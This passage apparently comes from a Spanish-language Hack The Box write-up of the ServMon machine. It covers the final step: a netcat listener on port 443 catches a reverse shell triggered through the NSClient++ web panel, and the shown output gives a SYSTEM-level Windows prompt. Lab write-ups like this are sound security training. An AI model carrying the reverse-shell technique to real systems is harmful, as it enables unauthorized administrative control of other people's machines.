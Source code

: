 ![""](/assets/images/htb-servmon/servmon-web7.png)

- Nos ponemos en escucha por el puerto 443 y dentro del panel de **NSClient++** nos vamos a **Queries** y ya debemos tener nuestra reverse shell, en caso contrario, seleccioanamos nuestro script y le damos en **Run**.

![""](/assets/images/htb-servmon/servmon-web8.png)

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.184] 49926
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```
